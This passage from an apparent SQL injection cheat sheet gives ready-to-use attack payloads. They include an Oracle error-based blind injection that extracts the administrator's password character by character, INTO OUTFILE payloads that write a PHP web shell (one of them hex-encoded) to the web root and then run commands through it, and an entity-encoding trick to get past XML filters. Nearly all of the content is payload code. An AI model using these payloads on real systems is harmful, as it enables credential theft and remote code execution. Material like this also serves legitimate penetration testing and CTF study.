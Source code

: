 ```txt
'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
...
'||(SELECT CASE WHEN SUBSTR(password,8,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

  

## [Writing Files](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#writing-files)

We can write arbitary code to a file as below.

```html
' SELECT '<?php echo system("id");?>' INTO OUTFILE '/var/www/html/shell.php'-- -
```

### [HEX Encoded Payloads](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#hex-encoded-payloads)

```html
' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED by 0x3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E-- -
' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED by 0x3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E#
```

**'0x3C3F...'** is a hex encoded text meaning **"<?php system($_GET["cmd"]) ?>"**. After injectin, we can access to **`http://10.0.0.1/shell.php?cmd=whoami`**.

  

## [XML Filter Bypass](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#xml-filter-bypass)

Reference: [PortSwigger](https://portswigger.net/web-security/sql-injection)

```xml
<storeId>
    <!-- Convert 'S' to HTML entity -->
    1 &#x53;ELECT * FROM information_schema.tables
</storeId>
```

If you use **Burp Suite**, it’s recommended to use the **Hackvertor** extention to obfuscate payloads.  
For example, in **Repeater**, highlight the string which you want to encode. Then right-click and select **Extensions → Hackvertor → Encode → hex_entities**.  
After that, our payload is as below.

```xml
<storeId>
    <@hex_entities>
        1 UNION SELECT * FROM information_schema.tables
    <@/hex_entities>
</storeId>
```
